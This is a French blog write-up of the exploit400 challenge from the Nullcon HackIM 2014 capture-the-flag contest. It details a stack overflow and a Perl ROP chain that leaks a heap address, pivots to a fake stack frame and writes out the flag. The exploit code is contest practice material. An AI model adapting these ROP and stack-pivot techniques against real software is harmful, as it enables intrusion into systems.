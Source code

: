 ```yaml
---
title: NULLCON-CTF-2014 - Exploit 400
date: 2014-01-26
tags: ctf
author: Tosh
layout: post
---
```


Voici un petit write-up du challenge exploit400, du CTF Nullcon Hackim 2014.

Vous pouvez trouver le binaire ici : [exploit400](https:/repo.t0x0sh.org/CTF/NULLCON_2014/exploit400)
Et la source ici : [exploit400.c](http://repo.t0x0sh.org/CTF/NULLCON_2014/exploit400.c)

Le fait que nous avions accés au code source du programme nous a bien facilité la tâche.

Le programme est on ne peut plus simple :
- Il ouvre et lit le flag de validation, et le stock dans le heap.
- Il demande ensuite une saisie, qui abouti facilement à un stack based overflow.

Il n'y a pas beaucoup de protection, et j'ai programmé mon exploit en prenant en compte l'ASLR probable :

```
	RELRO      STACK CANARY      NX            PIE         RPATH      RUNPATH      FILE
	No RELRO   No canary found   NX enabled    No PIE      No RPATH   No RUNPATH   exploit400
```

Comment lire le flag stocké en mémoire ? J'ai choisi de faire du ROP afin de bypass l'ASLR et NX.

La première chose que j'ai fais, c'est mettre à zéro 4 bytes du segment DATA. Pour se faire, j'ai utilisé la fonction read, présente dans la @PLT, afin d'envoyer 0x00000000.

```perl
	$payload .= pack('L', 0x080483d0); # read@plt
	$payload .= pack('L', 0x080486a7); # pop3;ret
	$payload .= pack('L', 0x00000000); # stdin
	$payload .= pack('L', 0x080498d8); # DATA
	$payload .= pack('L', 4); # size
```

Ensuite, j'exécute un malloc, histoire d'avoir une adresse du heap, et connaître ainsi l'emplacement du flag.


```perl
	$payload .= pack('L', 0x080483f0); # malloc@plt
	$payload .= pack('L', 0x080483a0); # pop;ret
	$payload .= pack('L', 0x100); # size
```

L'adresse du flag est alors à : EAX - OFFSET. Avec quelques gadgets, je stocke cette valeur en mémoire. (dans la zone initialisé grâce à la fonction read)

```perl
	$payload .= pack('L', 0x080483a0); # pop ebx; ret
	$payload .= pack('L', 0x080498d8-0x5d5b04c4); # DATA

	$payload .= pack('L', 0x080484de); # add [ebx+0x5d5b04c4],eax
```

Je m'envois alors cette valeur via la fonction write

```perl
	$payload .= pack('L', 0x08048440); # write@plt
	$payload .= pack('L', 0x080486a7); # pop3;ret
	$payload .= pack('L', 0x00000001); # stdout
	$payload .= pack('L', 0x080498d8); # DATA
	$payload .= pack('L', 4); # size
```

J'ai choisi d'utiliser une technique de fake-stack-frame + stack-pivot afin d'avoir un code "dynamique" (je calcule comme ça les offsets du heap dans l'exploit, et je peux créer la fake-stack-frame en conséquence). Je reçois ma stack via read(), que je stock dans le segment DATA.
J'exécute ensuite une instruction du type pop ebp; leave; ret; afin de changer de stack-frame.

```perl
	$payload .= pack('L', 0x080483d0); # read@plt
	$payload .= pack('L', 0x080486a7); # pop3;ret
	$payload .= pack('L', 0x00000000); # stdin
	$payload .= pack('L', 0x080498d8); # DATA
	$payload .= pack('L', 0x130); # size

	$payload .= pack('L', 0x080484e3); # pop ebp ; ret
	$payload .= pack('L', 0x080498d4);
	$payload .= pack('L', 0x08048511); # leave; ret
```

Envois du payload

```perl
	print $sock $payload;
```

Mise à zéro d'une variable en mémoire (premier read)

```perl
	print $sock "\x00\x00\x00\x00";
```

Lecture de l'adresse du HEAP envoyée

```perl
	$sock->read($r, 21);
	$sock->read($r, 4);
	$r = unpack('L', $r);
```

Création + envoi de la fake-stack-frame. Il s'agit s'implement d'un write() envoyant le flag.

```perl
	$stack .= pack('L', 0x08048440); # write@plt
	$stack .= pack('L', 0x080486a7); # pop3;ret
	$stack .= pack('L', 0x00000001); # stdout
	$stack .= pack('L', $r-0x48); # FLAG
	$stack .= pack('L', 100); # size

	print $sock $stack;
```

Réception du flag et validation du challenge !!!

```perl
	while($r = <$sock>) {
		print $r;
	}
```

Un challenge simple, mais plutôt marrant.

Voici l'exploit entier : [exploit400.pl](https://github.com/t00sh/ctf/blob/master/nullcon_ctf_2014/exploit400.pl)
